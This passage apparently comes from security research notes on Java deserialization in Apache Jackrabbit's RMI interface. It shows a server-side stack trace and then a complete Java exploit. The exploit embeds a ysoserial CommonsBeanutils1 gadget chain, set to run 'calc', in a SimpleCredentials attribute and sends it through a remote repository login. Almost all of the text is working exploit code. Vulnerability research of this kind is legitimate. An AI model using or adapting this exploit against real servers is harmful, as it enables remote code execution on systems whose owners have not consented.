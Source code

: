 ```bash
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
defaultReadFields:2000, ObjectInputStream (java.io)
readSerialData:1924, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
unmarshalValue:326, UnicastRef (sun.rmi.server)
dispatch:308, UnicastServerRef (sun.rmi.server)
run:200, Transport$1 (sun.rmi.transport)
run:197, Transport$1 (sun.rmi.transport)
doPrivileged:-1, AccessController (java.security)
serviceCall:196, Transport (sun.rmi.transport)
handleMessages:568, TCPTransport (sun.rmi.transport.tcp)
run0:826, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
lambda$run$256:683, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
run:-1, 565051120 (sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$$Lambda$23)
doPrivileged:-1, AccessController (java.security)
run:682, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:745, Thread (java.lang)
```

## EXP

```bash
package org.example;

import org.apache.jackrabbit.rmi.repository.URLRemoteRepository;
import ysoserial.payloads.ObjectPayload;

import javax.jcr.SimpleCredentials;


public class App
{
    public static void main( String[] args ) throws Exception {
        Class<? extends ObjectPayload> payloadClass = ObjectPayload.Utils.getPayloadClass("CommonsBeanutils1");
        ObjectPayload payload = (ObjectPayload)payloadClass.newInstance();
        Object object = payload.getObject("calc");

        SimpleCredentials simpleCredentials = new SimpleCredentials("admin", "admin".toCharArray());
        simpleCredentials.setAttribute("admin", object);

        URLRemoteRepository repository = new URLRemoteRepository("http://localhost:8090/jackrabbit_webapp_war_exploded/rmi");
        repository.login(simpleCredentials);
    }
}
```
